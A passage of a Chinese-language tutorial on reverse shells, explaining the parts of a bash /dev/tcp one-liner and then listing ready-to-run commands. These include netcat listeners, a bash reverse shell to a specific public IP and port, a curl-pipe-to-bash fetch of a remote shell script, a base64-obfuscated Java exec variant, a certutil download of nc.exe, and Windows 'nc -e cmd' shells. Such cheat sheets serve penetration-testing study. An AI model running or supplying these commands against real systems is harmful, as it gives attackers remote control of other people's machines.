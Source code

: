 | 命令                          | 命令详解                                                                               |
| --------------------- | ---------------------------------- |
| bash -i                     | 产生一个bash交互环境。                                                                      |
| >&                          | 将联合符号前面的内容与后面相结合，然后一起重定向给后者。                                                       |
| /dev/tcp/47.xxx.xxx.72/2333 | Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。 |
| 0>&1                        | 将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。                                                  |

Bash反弹一句完整的解读过程就是：

Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

**攻击机开启本地监听：**

```
netcat -lvvp 2333
nc -lvvp 2333
或者
ncat -lvp 2333
```

**目标机主动连接攻击机：**

```
bash -i >& /dev/tcp/47.109.58.205/2333 0>&1
```
**目标机借助Curl连接攻击机：**

```
curl http://47.109.58.205/fanshell.txt|bash

fanshell.txt内容为：
bash -i >& /dev/tcp/47.109.58.205/2333 0>&1
```


注意java这里反弹shell需要改良
```
Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");

bash -i >& /dev/tcp/ip/port 0>&1 需要base64编码再执行下面：

bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```



## **0x04.目标机Windows主动连接攻击机**
windows下载nc.exe，或者ncat。
nc.exe下载：<https://eternallybored.org/misc/netcat/>，只需要nc.exe程序即可。
下载命令生成：<https://forum.ywhack.com/bountytips.php?download>
```
certutil.exe -urlcache -split -f http://xiaodi8.com:80/nc.exe nc.exe
```
windows反弹cmd
```
能出网的windows：
nc.exe -e cmd 47.109.58.205 2333
ncat -e cmd 47.109.58.205 2333
公网的47.109.58.205服务器：
ncat -lvvp 2333
```

